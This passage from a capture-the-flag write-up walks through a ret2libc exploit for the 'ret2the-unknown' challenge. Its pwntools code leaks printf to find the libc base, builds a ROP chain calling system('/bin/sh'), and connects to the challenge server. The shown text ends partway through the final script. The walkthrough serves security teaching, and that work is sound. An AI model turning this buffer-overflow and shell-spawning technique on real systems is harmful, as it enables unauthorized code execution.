 ```python
printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]
printf_addr = int(printf_addr, 16)
```

The program will automatically repeat itself as planned in part 3. We can now calculate the libc base address using `printf_addr` from part 2. In fact, we can actually declare the base address in pwntools itself so that all future searches and lookups will use this base address:

```python
libc = ELF("./libc-2.28.so")
libc.address = printf_addr - libc.symbols["printf"]
```

What this code will do is it will load the libc file, take the `printf_addr` the program gave us, and subtract the offset of `prinf` from the libc file from it, therefore giving us the base address of the loaded libc. Part 4 complete!

Therefore, the `pop rdi; ret;` gadget is located at this base address *plus* `0x023a5f`. We can search through the libc for `"/bin/sh"` and `system` with pwntools now that we've declared its base address. We of course need to remember our padding as well to slide over to the return address. Parts 5-8, done:

```python
exploit  = b"B" * (32+8)
exploit += p64(libc.address + POP_RDI_RET)
exploit += p64(next(libc.search(b"/bin/sh")))
exploit += p64(libc.symbols["system"])
```

Our final exploit code will look something like the following:

```python
#!/usr/bin/env python3

from pwn import *

# Gadget offsets.
POP_RDI_RET = 0x00023a5f # pop rdi; ret;

# Remote switch.
REMOTE = True

def main():

    # Load the files.
    vuln = ELF("./ret2the-unknown")
    libc = ELF("./libc-2.28.so")

    # Connect to the target.
    if REMOTE:
        p = remote("mc.ax", 31568)
    else:
        p = process("./ret2the-unknown", env={"LD_PRELOAD": "./libc-2.28.so"})

    # Overwrite ret. addr. with main's addr.
    exploit  = b"A" * (32+8)                               # Padding to get to ret.
    exploit += p64(0x401186)                               # main() address overwrites ret.
    log.info("Overwriting return address with main.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # main should repeat and give us printf addr.
    p.recvuntil("there: ")
    printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]

    # Calculate the offsets and addresses.
    printf_addr   = int(printf_addr, 16)                   # Load the printf address.
```